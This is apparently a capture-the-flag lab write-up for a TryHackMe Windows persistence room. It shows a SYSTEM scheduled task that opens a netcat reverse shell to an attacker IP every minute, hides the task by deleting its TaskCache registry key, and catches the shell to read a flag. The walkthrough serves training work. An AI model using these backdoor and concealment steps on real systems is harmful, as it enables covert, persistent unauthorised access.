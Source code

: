 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Task Scheduler
1. Started this room's machine
2. `schtasks /create /sc minute /mo 1 /tn <TASK NAME> /tr "c:\tools\nc64 -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru SYSTEM`
```PowerShell
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.39.232 9999" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
3. `schtasks /query /tn <TASK NAME>`
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
THM-taskbackdoor                         7/7/2023 12:54:00 AM   Ready
```
4. `c:\tools\pstools\PsExec64.exe -s -i regedit`
```PoweShell
C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PsExec64.exe%20-s%20-i%20regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20After%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

5. `schtasks /query /tn THM-taskbackdoor`
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor
ERROR: The system cannot find the file specified.
```
6. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-39-232:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.61.182 49841 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag9.exe` from our reverse shell to run the **flag9.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```

**TASK COMPLETED**
